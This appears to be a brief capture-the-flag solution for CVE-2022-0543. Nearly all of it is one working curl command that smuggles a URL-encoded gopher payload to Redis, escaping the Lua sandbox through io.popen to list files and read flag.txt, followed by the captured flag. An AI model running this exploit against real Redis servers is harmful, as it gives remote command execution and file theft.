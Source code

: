CVE-2022-0543

Command: `curl 'gopher://172.105.121.246:6379/_%0D%0Aeval%20'"'"'local%20io_l%20=%20package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0",%20"luaopen_io");%20local%20io%20=%20io_l();%20local%20f%20=%20io.popen("cd%20..;cd%20..;cd%20..;ls;cat%20flag.txt",%20"r");%20local%20res%20=%20f:read("*a");%20f:close();%20return%20res'"'"'%200%0D%0Aquit%0D%0A'`

Flag: `KCTF{c0n6r475_b015_n1c3_c47ch}`